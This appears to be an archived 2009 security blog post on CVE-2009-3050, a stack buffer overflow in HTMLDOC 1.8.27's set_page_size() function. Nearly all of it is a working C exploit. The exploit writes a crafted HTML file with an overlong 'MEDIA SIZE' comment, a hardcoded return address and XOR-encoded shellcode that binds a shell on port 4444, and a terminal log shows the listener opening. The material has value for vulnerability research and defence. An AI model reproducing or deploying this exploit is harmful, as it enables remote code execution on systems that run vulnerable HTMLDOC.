 ```yaml
---
comments: true
date: 2009-08-20 00:34:14+00:00
layout: post
slug: htmldoc-html-file-handling-remote-stack-buffer-overflow-exploit-linux
title: HTMLDOC 'html' File Handling Remote Stack Buffer Overflow Exploit (Linux)
description: HTMLDOC 'html' File Handling Remote Stack Buffer Overflow Exploit (Linux)
wordpress_id: 49
categories:
- Archive
tags:
- CVE-2009-3050
- exploits
- blog
---
```


The vulnerability exists in HTMLDOC version 1.8.27 and earlier due to an unsafe call to `sscanf()` in the `set_page_size()` function in `htmldoc/util.cxx`. This can be exploited to cause a stack-based buffer overflow when an HTML document containing e.g. a specially crafted "MEDIA SIZE" comment is being processed.

{% highlight c %}
/*
 
HTMLDOC 'html' File Handling Remote Stack Buffer Overflow Exploit (Linux)
Reference: http://www.securityfocus.com/bid/35727
 
Tested on HTMLDOC 1.8.27 on Debian 5.0 (+ASLR)
Credit: ANTHRAX666 for finding the vulnerability
 
Coded by Pankaj Kohli
 
http://www.codepwn.com
 
pankaj@zion:~/test/htmldoc$ cat /proc/sys/kernel/randomize_va_space
2
pankaj@zion:~/test/htmldoc$ gcc htmldocb0f.c -o htmldocb0f
pankaj@zion:~/test/htmldoc$ ./htmldocb0f
 
[*] Creating buffer
[*] Exploit file written to sploit.html
Run as: htmldoc -f somefile.pdf sploit.html
 
pankaj@zion:~/test/htmldoc$ netstat -an --inet | grep 4444
pankaj@zion:~/test/htmldoc$ ./htmldoc-1.8.27/htmldoc/htmldoc -f abc.pdf sploit.html &
[1] 3287
pankaj@zion:~/test/htmldoc$ netstat -an --inet | grep 4444
tcp 0 0 0.0.0.0:4444 0.0.0.0:* LISTEN
 
*/
 
#include <stdio.h>
#include <string.h>
 
/* Port binding (xor encoded) shellcode (port 4444) */
char code[] =
"\xeb\x12\x5b\x31\xc9\xb1\x75\x8a\x03\x34"
"\x1e\x88\x03\x43\x66\x49\x75\xf5\xeb\x05"
"\xe8\xe9\xff\xff\xff\x74\x78\x46\x74\x1f"
"\x45\x2f\xd7\x4f\x74\x1f\x74\x1c\x97\xff"
"\xd3\x9e\x97\xd8\x2f\xcc\x4c\x78\x76\x0f"
"\x42\x78\x76\x1c\x1e\x97\xff\x74\x0e\x4f"
"\x4e\x97\xff\xad\x1c\x74\x78\x46\xd3\x9e"
"\xae\x78\xad\x1a\xd3\x9e\x4c\x48\x97\xff"
"\x5d\x74\x78\x46\xd3\x9e\x97\xdd\x74\x1c"
"\x47\x74\x21\x46\xd3\x9e\xfc\xe7\x74\x21"
"\x46\xd3\x9e\x2f\xcc\x4c\x76\x70\x31\x6d"
"\x76\x76\x31\x31\x7c\x77\x97\xfd\x4c\x78"
"\x76\x33\x77\x97\xff\x4c\x4f\x4d\x97\xff"
"\x74\x15\x46\xd3\x9e\x74\x1f\x46\x2f\xc5"
"\xd3\x9e";
 
long jmp = 0x0804d938; // push esp; ret 0x0807;
 
int main(int argc, char **argv, char **envp) {
    char buff[512];
    int i;
    FILE *fd;
 
    printf("\n[*] Creating buffer\n");
    strcpy(buff, "<!-- MEDIA SIZE 1x1");
    for(i=0; i<275; i++) {
        buff[19+i] = 'A';
    }
 
    buff[294] = jmp & 0x000000ff;
    buff[295] = (jmp & 0x0000ff00) >> 8;
    buff[296] = (jmp & 0x00ff0000) >> 16;
    buff[297] = (jmp & 0xff000000) >> 24;
    buff[298] = 0;
 
    strcat(buff, code);
 
    fd = fopen("sploit.html", "wb");
    fprintf(fd, "%s", buff);
    fclose(fd);
    printf("[*] Exploit file written to sploit.html\n");
    printf("Run as: htmldoc -f somefile.pdf sploit.html\n\n");
 
    return 0;
}
{% endhighlight %}

